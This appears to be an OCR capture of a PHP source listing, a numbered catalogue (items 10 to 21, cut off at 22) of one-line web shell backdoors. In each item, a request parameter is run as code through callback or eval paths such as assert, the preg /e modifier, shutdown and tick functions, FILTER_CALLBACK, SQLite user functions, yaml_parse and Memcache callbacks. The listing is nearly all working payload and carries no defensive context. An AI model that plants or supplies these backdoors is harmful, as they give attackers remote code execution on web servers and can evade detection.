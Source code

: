 ```

//10
$e = $_REQUEST['e'];
$arr = array($_POST['pass'] => '|.*|e',);
array_walk_recursive($arr, $e, '');

//11
mb_ereg_replace('.*', $_REQUEST['pass'], '', 'e');

//12
echo preg_filter('|.*|e', $_REQUEST['pass'], '');

//13
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();

//14
$e = $_REQUEST['e'];
register_shutdown_function($e, $_REQUEST['pass']);

//15
$e = $_REQUEST['e'];
declare(ticks=1);
register_tick_function($e, $_REQUEST['pass']);

//16
filter_var($_REQUEST['pass'], FILTER_CALLBACK, array('options' => 'assert'));

//17
filter_var_array(array('test' => $_REQUEST['pass']), array('test' => array('filter' => FILTER_CALLBACK, 'options' => 'assert')));

//18
$e = $_REQUEST['e'];
$db = new PDO('sqlite:sqlite.db3');
$db->sqliteCreateFunction('myfunc', $e, 1);
$sth = $db->prepare("SELECT myfunc(:exec)");
$sth->execute(array(':exec' => $_REQUEST['pass']));

//19
$e = $_REQUEST['e'];
$db = new SQLite3('sqlite.db3');
$db->createFunction('myfunc', $e);
$stmt = $db->prepare("SELECT myfunc(?)");
$stmt->bindValue(1, $_REQUEST['pass'], SQLITE3_TEXT);
$stmt->execute();

//20
$str = urlencode($_REQUEST['pass']);
$yaml = <<<EOD
greeting: !{$str} "|.+|e"
EOD;
$parsed = yaml_parse($yaml, 0, $cnt, array("!{$_REQUEST['pass']}" => 'preg_replace'));

//21
$mem = new Memcache();
$re = $mem->addServer('localhost', 11211, TRUE, 100, 0, -1, TRUE, create_function('$a,$b,$c,$d,$e', 'return assert($a);'));
$mem->connect($_REQUEST['pass'], 11211, 0);

//22
```